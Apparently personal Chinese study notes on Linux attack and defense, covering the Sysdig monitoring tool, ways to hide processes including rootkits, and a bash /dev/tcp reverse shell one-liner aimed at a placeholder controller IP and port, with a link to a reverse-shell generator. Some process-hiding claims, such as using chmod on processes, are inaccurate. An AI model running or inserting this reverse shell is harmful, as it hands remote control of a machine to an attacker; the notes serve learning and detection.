 ```yaml
---
title: 攻击和防御
---
```

包含 nc 反弹shell 等常见攻击手段 使用Sysdig进行排查



Sysdig : Open Source Universal System Visibility With Native Contaier Support.

虽然 Linux 有很多系统分析和调优的工具 如strace、tcpdump、htop、iftop、lsof、netstat，但是它们一般都负责某个特殊的功能，并且使用方式有很大的差异，如果要分析和定位问题，一般都需要熟练掌握需要命令的使用。而且这些工具的数据无法进行共享，只能相互独立工作。Sysdig 一个工具就能实现上述所有工具的功能，并且提供了统一的使用语法。



CPU、Memory、Disk IO、网络 IO•支持各种 IO 活动：进程、文件、网络连接等

来分析这些数据



Sysdig 有着类似于 tcpdump 的过滤语法，用户可以随意组合自己的过滤逻辑，用户还可以自己编写 Lua 脚本来自定义分析逻辑，基本上不受任何限制。



https://mp.weixin.qq.com/s/j4vfelk1Eu-rl2s8B70_CQ







Linux 隐藏进程的方法有以下几种：

- 修改进程名：通过修改进程名，使进程不易被发现。可以使用命令行工具如 ps、top 来查看进程名。修改进程名可以使用命令 prctl 或 setproctitle。

- 修改进程所在目录：可以将进程所在目录修改为一个隐藏目录，使进程不易被发现。可以使用 chroot 命令将进程所在目录修改为一个隔离的目录。

- 修改进程权限：可以修改进程的权限，使其只能被 root 用户或者某个特定用户访问。可以使用 chmod 命令修改进程权限。

- 使用 rootkit 技术：rootkit 是一种用于隐藏进程和文件的恶意软件。可以使用 rootkit 技术隐藏进程。


反弹shell
一个反弹shell生成器 https://github.com/0dayCTF/reverse-shell-generator

例如：
```bash
bash -i >& /dev/tcp/控制端IP/控制端端口 0>&1
```
这个命令的作用是将标准输入、输出和错误重定向到一个 TCP 连接，从而实现反弹 shell。具体来说，该命令将标准输出和错误输出都重定向到一个 TCP 连接，并将标准输入重定向到标准输出和错误输出的合并，从而使得攻击者可以通过控制端口向目标机器发送命令并获取输出，实现反弹 shell 的效果。  
https://unix.stackexchange.com/questions/521596/what-does-the-01-shell-redirection-mean